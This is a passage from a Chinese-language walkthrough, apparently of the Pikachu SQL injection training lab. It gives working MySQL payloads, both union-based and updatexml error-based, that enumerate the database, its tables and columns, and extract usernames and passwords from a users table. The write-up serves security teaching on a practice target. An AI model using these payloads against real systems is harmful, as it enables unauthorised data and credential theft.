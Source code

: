```sql
kobe' union select 1, 2 #
```

#### 查询数据库名

使用 mysql 中的 database() 函数

```sql
kobe' union select 1, database() #
```

可以看到在页面中显示出了数据库名称： pikachu

#### 查询数据表名

在 mysql 数据库中 information_schema 数据库 tables 的数据表中保存着所有 mysql 的配置信息，包括所有的数据库，数据表以及它们的字段名，所以直接使用查询语句查询该数据库的所有数据表。

```sql
kobe' union select group_concat(table_name), 2 from information_schema.tables where table_schema = database()#
```

#### 查询 users 表中的所有字段

同样使用上述的数据库，这次使用 colums 数据表即可查询到所有数据表中的所有字段。

```sql
kobe' union select group_concat(column_name), 2 from information_schema.columns 
where table_schema = database() and table_name = 'users'#
```

#### 查询 users 表中的所有信息

假设 username 和 password 就是我们想要的字段，直接查询里面的信息即可

```sql
kobe' union select username, password from users #
```

### 报错注入

报错注入是通过 mysql ，函数执行错误时的会显示报错信息而执行的一种注入。

依然是字符型注入，这里使用 mysql 的 updatexml() 函数，该函数本身是通过 xpath 进行xml 替换，由于xpath 中出现特殊字符就会报错，所以使用该函数作为报错注入的工具。

#### 查询数据库名

concat 是连接函数，用来连接字符串，而在 ASCII 码中 0x7e 这个十六进制代表符号 ~，而波浪线在 xpath 语法中是不存在的，这样就可以通过报错信息得到我们想要的内容。

```sql
kobe' and updatexml(1, concat(0x7e, database()), 1) #
```

#### 查询数据表名

```sql
kobe' and updatexml(1, concat(0x7e, (select group_concat(table_name)
from information_schema.tables where table_schema = database())), 1) #
```

